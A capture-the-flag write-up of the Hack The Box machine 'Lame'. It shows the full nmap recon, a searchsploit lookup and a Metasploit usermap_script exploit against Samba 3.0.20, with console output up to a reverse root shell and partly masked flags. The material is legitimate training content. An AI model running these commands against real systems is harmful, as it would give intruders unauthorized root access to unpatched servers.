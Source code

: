 ```yaml
---
layout: post
title: HackTheBox - Lame
---
```



Lame is a beginner friendly machine from Hack The Box. It is directly exploitable with the Metasploit module **exploit/multi/samba/usermap_script**. This exploit not only opens a shell session, but it does it as root. From there, it's just a matter of getting the flags.

Pretty straightforward, let's dive in.



## Attack Narrative



### Active Information Gathering

I start with a simple port scan with default scripts.

```
root@kali:~/htb/boxes/Lame# nmap -Pn -n --open -sC -oA nmap-scan 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-18 18:37 -03
Nmap scan report for 10.10.10.3
Host is up (0.25s latency).
Not shown: 996 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
Host script results:
|_clock-skew: mean: -2d22h05m42s, deviation: 0s, median: -2d22h05m42s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2018-08-15T13:32:20-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 128.91 seconds
```

SMB services are usually prone to multiple vulnerabilities, so this helps me prioritize:

- First, I'll check for vulnerabilities in SMB. I have the version: `Samba 3.0.20-Debian`.
- Second in the list is obviously FTP. I can log in anonymously, and I also have the version of the application: `vsFTPd 2.3.4`.
- Lastly, I'll check for ssh on port 22, while waiting for a full scan. 



### Vulnerability Scanning

I start scanning for vulnerabilities in the services by using plain Google and a utility called `searchsploit`.

This is what I find in `searchsploit`:

```
root@kali:~/htb/boxes/Lame# searchsploit Samba 3.0.20
... SNIP ...
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
Samba < 3.0.20 - Remote Heap Overflow
... SNIP ...
Shellcodes: No Result
root@kali:~/htb/boxes/Lame# 
```

I'm looking for something like the first one. The target machine seems to be vulnerable, given the fact that it's a Linux machine running `Samba 3.0.20`. 



### Exploitation - w00t, w00t!

According to rapid7, the module for Samba "username map script" Command Execution has *excellent* reliabilty. This is what I'm looking for: in case the exploit fails it won't crash the machine. 

Time to fire `msfconsole` and load the module.

```
msf > use exploit/multi/samba/usermap_script 
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

```



Everything seems to be in place, but it's always good to double check:

```
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.3       yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```



And, I run `exploit` to execute it.

```
msf exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.14:443 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo HzmgB07WVuZ8kBhR;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\nHzmgB07WVuZ8kBhR\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.14:443 -> 10.10.10.3:44289) at 2018-12-03 19:08:11 -0300

id
uid=0(root) gid=0(root)
hostname
lame
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:bf:36:b8 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.3/24 brd 10.10.10.255 scope global eth0
    inet6 dead:beef::250:56ff:febf:36b8/64 scope global dynamic 
       valid_lft 86371sec preferred_lft 14371sec
    inet6 fe80::250:56ff:febf:36b8/64 scope link 
       valid_lft forever preferred_lft forever

```



Success! I'm in, and as root. Now getting the flags is trivial.

```
find / -name user.txt 2>/dev/null
/home/makis/user.txt
find / -name root.txt 2>/dev/null
/root/root.txt
```



And the result, which I reveal partially.

```
cat /home/makis/user.txt
---------------0225ea00acd2e84c5
cat /root/root.txt
---------------09e45721348a4e9df
```



## Conclusion

Very easy to pwn box, ideal for beginners and to learn to use Metasploit. It was fun, and I wonder what other ways one could access it. 

As always, thanks for reading and keep hacking!



###### References

[Rapid7](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)